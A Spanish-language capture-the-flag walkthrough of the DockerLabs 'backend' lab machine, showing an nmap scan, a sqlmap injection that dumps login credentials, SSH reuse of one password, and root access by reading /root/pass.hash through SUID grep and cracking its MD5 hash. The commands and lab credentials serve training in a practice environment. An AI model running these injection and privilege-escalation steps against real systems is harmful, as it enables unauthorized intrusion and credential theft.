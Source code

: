 # backend

Maquina backend de [DockerLabs](https://dockerlabs.es)

Autor: [4bytes](https://github.com/4bytess/)

Dificultad: Fácil

![dock](./images/backend/img/dock.png)

## INTRUSION

Comenzamos haciendo un escaneo de nmap:

```css
nmap -p- 172.17.0.2 -n --open --min-rate 5000 -Pn -sSVC -vvv -oN escaneo.txt
```

```ruby
# Nmap 7.94SVN scan initiated Thu Aug 29 19:18:27 2024 as: nmap -p- -n --open --min-rate 5000 -Pn -sSVC -vvv -oN escaneo.txt 172.17.0.2
Nmap scan report for 172.17.0.2
Host is up, received arp-response (0.000014s latency).
Scanned at 2024-08-29 19:18:27 -03 for 8s
Not shown: 65533 closed tcp ports (reset)
PORT   STATE SERVICE REASON         VERSION
22/tcp open  ssh     syn-ack ttl 64 OpenSSH 9.2p1 Debian 2+deb12u3 (protocol 2.0)
| ssh-hostkey: 
|   256 08:ba:95:95:10:20:1e:54:19:c3:33:a8:75:dd:f8:4d (ECDSA)
| ecdsa-sha2-nistp256 AAAAE2VjZHNhLXNoYTItbmlzdHAyNTYAAAAIbmlzdHAyNTYAAABBBMPJ46ajVOvTej11m5rYDjs9KAJUbzC1iUdAloBEabTXlpaBY6grCd3EAwDWE33L9E7lC5k9G+g2gNtsrAq79dw=
|   256 1e:22:63:40:c9:b9:c5:6f:c2:09:29:84:6f:e7:0b:76 (ED25519)
|_ssh-ed25519 AAAAC3NzaC1lZDI1NTE5AAAAIF6xGDDmewkLLpG4sexgnIhUkqp4QnkWeDoYn4PyDLS4
80/tcp open  http    syn-ack ttl 64 Apache httpd 2.4.61 ((Debian))
|_http-title: test page
| http-methods: 
|_  Supported Methods: GET POST OPTIONS HEAD
|_http-server-header: Apache/2.4.61 (Debian)
MAC Address: 02:42:AC:11:00:02 (Unknown)
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Read data files from: /usr/bin/../share/nmap
Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
# Nmap done at Thu Aug 29 19:18:36 2024 -- 1 IP address (1 host up) scanned in 8.82 seconds
```

Como vemos está abierto el puerto 80 por el que esta siendo usado por apache y el puerto 22 usado por openSSH.

**PUERTO 80:**

![80](./images/backend/img/80.png)

Como vemos parece ser una página bajo mantenimiento pero vemos un login, pero luego de probar credenciales basicas como `admin:admin` o `root:root` y no conseguir nada, pruebo en poner una comilla para ver si trata de SQLi, pero como no nos muestra ningún error sino una página distinta, podriamos confirmar o descartar la idea usando sqlmap. Para hacerlo solo ejecutamos esto:

```css
sqlmap -u "http://172.17.0.2/login.html" --forms --batch --dbs --dump
```

como vemos, nos devuelve esto:

```css
+----+---------------+----------+
| id | password      | username |
+----+---------------+----------+
| 1  | $paco$123     | paco     |
| 2  | P123pepe3456P | pepe     |
| 3  | jjuuaann123   | juan     |
+----+---------------+----------+
```

Por lo que si trata de una SQLi, luego de probarlos en la página y que ninguno nos sirva, podemos intentar probar si alguno es válido para el puerto 22 de ssh, por lo que simplemente probamos uno por uno ya que son 3, y vemos que el usuario pepe si tiene acceso

## ESCALADA DE PRIVILEGIOS

Ahora tendremos que escalar privilegios siendo el usuario pepe, si nos fijamos no existe sudo, por lo que podriamos buscar en el SUID de la siguiente manera:

```css
find / -perm -4000 2>/dev/null
```

```css
/usr/bin/chfn
/usr/bin/chsh
/usr/bin/gpasswd
/usr/bin/mount
/usr/bin/newgrp
/usr/bin/passwd
/usr/bin/su
/usr/bin/umount
/usr/bin/ls
/usr/bin/grep
/usr/lib/dbus-1.0/dbus-daemon-launch-helper
/usr/lib/openssh/ssh-keysign
```

Como vemos, el binario `ls` y `grep` estan en el SUID, por lo que podriamos intentar leer la home de root usando ls de la siguiente manera:

```css
/usr/bin/ls /root
```

```css
/usr/bin/ls /root/   
pass.hash
```

viendo que hay un pass.hash podemos intentar leerlo con grep ejecutando esto:

```css
LFILE=/root/pass.hash
/usr/bin/grep '' $LFILE
```

```css
e43833c4c9d5ac444e16bb94715a75e4
```

como vemos, parece ser un hash md5, por lo que lo podemos meter en [crackstation](https://crackstation.net/):

![md5](./images/backend/img/md5.png)

Como vemos, parece ser que el hash tiene la contraseña `spongebob34`, ahora escalamos a root ejecutando `su root` y metiendo la contraseña:

![root](./images/backend/img/root.png)
